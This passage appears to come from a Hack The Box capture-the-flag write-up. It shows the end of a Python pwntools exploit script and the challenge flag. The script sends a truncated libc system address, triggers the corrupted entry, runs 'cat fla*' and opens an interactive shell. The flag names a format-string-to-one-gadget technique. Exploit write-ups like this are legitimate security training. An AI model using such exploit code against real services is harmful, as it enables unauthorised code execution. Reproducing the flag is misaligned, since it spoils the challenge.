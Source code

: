 ```python

                p.sendline(str(libc.symbols["system"]&0xffffffff))
                p.recvuntil("Index: ")
                p.sendline("3")
                p.sendline("cat fla*")
                #view(3,False)
                p.interactive()

        except KeyboardInterrupt:
                pass
        except :
                pass
```

_HTB{Fm7_S7r1Ng_T0_0n3_G4dG37_1S_Th3_1337_W4y_6a729c18ad2a9037294a04dc4eae9206}_
